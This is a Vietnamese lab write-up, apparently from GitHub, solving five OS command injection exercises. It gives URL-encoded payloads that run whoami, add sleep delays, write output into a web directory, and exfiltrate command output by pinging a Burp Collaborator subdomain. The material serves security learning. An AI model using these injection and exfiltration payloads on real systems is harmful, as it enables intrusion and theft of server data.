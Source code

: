 # 1. OS command injection, simple case
Trong chức năng check stock, ta thấy body có dạng `productId=2&storeId=1`

Thử thay đổi body thành `productId=2&storeId=1'` thì thấy hiển thị lỗi `sh: 1: Syntax error:Unterminated quoted string`. Như vậy, server sử dụng hai biến productId và storeId để truyền vào một lệnh command, thực thi rồi trả về kết quả tương ứng.

Thay đổi body để thực thi câu lệnh whoami: `productId=2&storeId=1;whoami`, ta thu được kết quả mong muốn

![image](https://user-images.githubusercontent.com/103978452/202739993-e5acd98b-fd43-4d42-a90e-abde76bffc9d.png)

# 2. Blind OS command injection with time delays
Trong chức năng feedback, ta thấy response trả về chỉ là một object rỗng. Như vậy đây là blind OS command injection.

Body của request tới /feedback/submit có dạng `csrf=...&name=my_name&email=my_mail@gmail.com&subject=my_subject&mesage=my_message`. Lần lượt thử thêm `%22%3Bsleep+10%3Becho+%22` (ứng với `";sleep 10;echo "` sau khi URL decode) vào sau các trường name, email, subject và message. 

Ta thấy với body `csrf=Mfd0vSTsKCnatqeVnSeJaohf5YXVKSCV&name=triet%22%3Bsleep+10%3Becho+%2& email=trang%40gmail.com2&subject=trung&message=helloooo` thì response bị delay 10 giây. Như vậy, kết quả thành công.

# 3. Blind OS command injection with output redirection
Như trong lab description, các images của server được lưu trong /var/www/images

Trong chức năng feedback, thêm đoạn code sau vào sau tham số name: 
`%22%3B%77%68%6F%61%6D%69%3E%2F%76%61%72%2F%77%77%77%2F%69%6D%61%67%65%73%2F%68%65%6C%6C%6F%2E%74%78%74%3B%65%63%68%6F%20%22`, tương ứng `";whoami>/var/www/images/hello.txt;echo "` sau khi URL decode. Đoạn code này sẽ thực thi lệnh whoami và đưa nội dung vào file /var/www/images/hello.txt

Truy cập URL `/images?filename=hello.txt`, ta có được nội dung của lệnh command whoami

![image](https://user-images.githubusercontent.com/103978452/202840364-69225135-eaf3-43bd-ba93-da0137d0249b.png)

# 4. Blind OS command injection with out-of-band interaction
Trong chức năng feedback, ta thay đổi tham số username:
`name=test%22%3B%70%69%6E%67%20%77%77%77%79%6F%74%37%79%63%66%61%6E%6C%73%61%35%6D%6A%76%6D%68%34%79%65%76%35%31%76%70%6B%2E%6F%61%73%74%69%66%79%2E%63%6F%6D%3B%65%63%68%6F%20%22`, tương ứng `name=test";ping wwwyot7ycfanlsa5mjvmh4yev51vpk.oastify.com;echo "` sau khi URL decode.

![image](https://user-images.githubusercontent.com/103978452/202840899-8f8acbec-5225-4971-b130-a593ee2e07ff.png)

Sau khi gửi request, kiểm tra trong BurpCollaborator client thì thấy có request được gửi đến

![image](https://user-images.githubusercontent.com/103978452/202840925-0bf184d6-cffd-4895-a8c7-f6f3bac49a44.png)

# 5. Blind OS command injection with out-of-band data exfiltration
Thử sử dụng payload như trong challenge #4, ta thấy kết quả vẫn thành công.

Ta sẽ lấy dữ liệu bằng cách thay đổi subdomain trong URL của Burp Collaborator Server. Trong phần body của request POST /feedback/submit, ta thay đổi tham số name thành `name=%22%3B%70%69%6E%67%20%60%77%68%6F%61%6D%69%60%77%77%77%79%6F%74%37%79%63%66%61%6E%6C%73%61%35%6D%6A%76%6D%68%34%79%65%76%35%31%76%70%6B%2E%6F%61%73%74%69%66%79%2E%63%6F%6D%3B%65%63%68%6F%20%22` (tương ứng `name=";ping `whoami`wwwyot7ycfanlsa5mjvmh4yev51vpk.oastify.com;echo "` sau khi URL decode)

Sau khi nhấn send, vào Burp Collaborator Client kiểm tra thì thấy có một request với URL "peter-msIKBjwwwyot7ycfanlsa5mjvmh4yev51vpk.oastify.com", phần "peter-msIKBj" chính là kết quả của lệnh whoami.

![image](https://user-images.githubusercontent.com/103978452/202841656-f63309f1-cec9-41da-95cc-af6378c6e77b.png)

Sử dụng thông tin đã có để submit solution, kết quả thành công.
